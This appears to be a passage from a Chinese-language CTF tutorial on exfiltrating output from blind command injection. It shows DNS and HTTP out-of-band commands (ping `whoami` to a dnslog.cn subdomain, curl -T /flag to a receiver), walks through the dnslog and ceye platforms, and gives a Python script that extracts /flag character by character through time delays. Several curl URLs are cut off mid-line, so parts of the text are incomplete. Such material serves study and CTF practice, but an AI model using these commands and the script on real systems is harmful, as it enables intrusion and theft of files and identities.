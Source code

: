 ```
单行传输：
ping `whoami`.dns地址
curl http:



多行传输：(外带只会显示第一行的数据)
curl http:
curl http:
curl -T /flag http:
```

下面我会就这两个外带平台进行演示

**1.dnslog**

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831397878-f99d6d7d-ee74-42eb-a359-f67e5a412909.png)

首先点击get subdomain，即可获得2所示的url地址，随后即可在靶机执行如下命令

```
ping `whoami`.dns地址
ping `whoami`.b854kz.dnslog.cn
```

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831398665-e19fabbd-10a2-49cb-9ea4-bb1e0df4d971.png)

点几下refresh record（点成get就得重新搞了）即可获得回显，可以得到靶机当前用户为root

**2.ceye**

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831398710-9da0f4b9-17e4-47a3-8a8c-924baf2ec3cd.png)

login处登录后应为profile，在profile出得到url地址后即可执行如下命令

```
curl http:
```

点几下reload即可得到回显结果

##### 盲注

```
import requests
import string
import time

url='http://localhost.test.php/?c='
dic=string.printable[:-6]
flag=''

for i in range(1,50):
    judge=0
    for j in dic:
        now=f'{url}a=$(cat /flag | head -1 | cut -b {i});if [ $a = {j} ];then sleep 2;fi'
        start=time.time()
        r=requests.get(now)
        end=time.time()
        if int(end)-int(start) >1:
            judge=1
            flag+=j
            print(flag)
            break
    if judge==0:
        break

print(flag)
```